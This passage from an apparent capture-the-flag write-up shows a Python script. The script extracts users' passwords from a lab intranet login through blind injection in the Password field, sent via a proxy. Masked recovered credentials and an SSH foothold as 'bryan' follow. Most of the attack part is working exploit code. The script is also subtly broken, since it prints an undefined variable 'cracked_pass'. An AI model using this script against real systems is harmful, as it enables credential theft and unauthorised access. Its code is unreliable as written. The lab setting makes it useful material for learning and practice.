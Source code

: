 now, we can use `burp` to do some slow bruteforcing, but i will write a script instead

```py
import requests

url = 'http://172.31.179.1/intranet.php'
proxy = 'http://10.10.10.200:3128'
words = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&?"
users = ['rita','jim','bryan','sarah']

for user in users:
	try:
		data = {'Username': '', 'Password': "' or Username='" + user + "' and substring(Password,0,1)='x"}
		request = requests.post(url, data=data, proxies={'http':proxy})
		b = len(request.text)
		passwd = ''
		for i in range(1,80):
			found = False
			for c in words:
				data = {'Username': '', 'Password': "' or Username='" + user + "' and substring(Password," + str(i) + ",1)='" + c + ""}
				request = requests.post(url, data=data, proxies={'http':proxy})
				if len(request.text) != b:
					found = True
					break

			if not found:
				break
			passwd += c

	except KeyboardInterrupt:
				pass		
	print(user + ":" + cracked_pass)
```
and in under a minute after running it we have all their creds

```
rita:p*********!
jim:s*************n
bryan:i********************!
sarah:s********h
```

none of them were useful on the intranet login
but the password for `bryan` worked for `ssh`

## Initial Foothold

```bash
ssh bryan@10.10.10.200
```
here we can read `user.txt`

